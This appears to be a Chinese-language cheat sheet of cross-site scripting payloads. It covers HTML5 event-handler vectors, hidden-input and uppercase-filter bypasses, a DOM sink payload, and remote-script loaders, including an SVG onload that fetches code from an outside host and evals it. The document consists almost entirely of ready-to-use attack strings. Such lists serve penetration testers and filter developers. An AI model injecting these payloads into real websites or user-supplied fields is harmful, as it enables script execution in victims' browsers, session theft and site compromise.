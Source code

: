 ### 使用HTML5标签的XSS

```javascript
<body onload=alert(/XSS/.source)>
<input autofocus onfocus=alert(1)>
<select autofocus onfocus=alert(1)>
<textarea autofocus onfocus=alert(1)>
<keygen autofocus onfocus=alert(1)>
<video/poster/onerror=alert(1)>
<video><source onerror="javascript:alert(1)">
<video src=_ onloadstart="alert(1)">
<details/open/ontoggle="alert`1`">
<audio src onloadstart=alert(1)>
<marquee onstart=alert(1)>
<meter value=2 min=0 max=10 onmouseover=alert(1)>2 out of 10</meter>

<body ontouchstart=alert(1)> // 当手指触摸屏幕时触发
<body ontouchend=alert(1)>   // 当手指从触摸屏移开时触发
<body ontouchmove=alert(1)>  // 当手指在屏幕上拖动时触发。
```

### 使用远程JS的XSS

```html
<svg/onload='fetch("//host/a").then(r=>r.text().then(t=>eval(t)))'>
<script src=14.rs>
// 也可以指定任意载荷，例如：14.rs/#payload
e.g: 14.rs/#alert(document.domain)
```

### 隐藏输入中的XSS

```javascript
<input type="hidden" accesskey="X" onclick="alert(1)">
使用CTRL+SHIFT+X触发onclick事件
```

在较新浏览器中：firefox-130/chrome-108

```javascript
<input type="hidden" oncontentvisibilityautostatechange="alert(1)"  style="content-visibility:auto" >
```

### 大写输出中的XSS

```javascript
<IMG SRC=1 ONERROR=&#X61;&#X6C;&#X65;&#X72;&#X74;(1)>
```

### 基于DOM的XSS

基于DOM XSS sink。

```javascript
#"><img src=/ onerror=alert(2)>
```
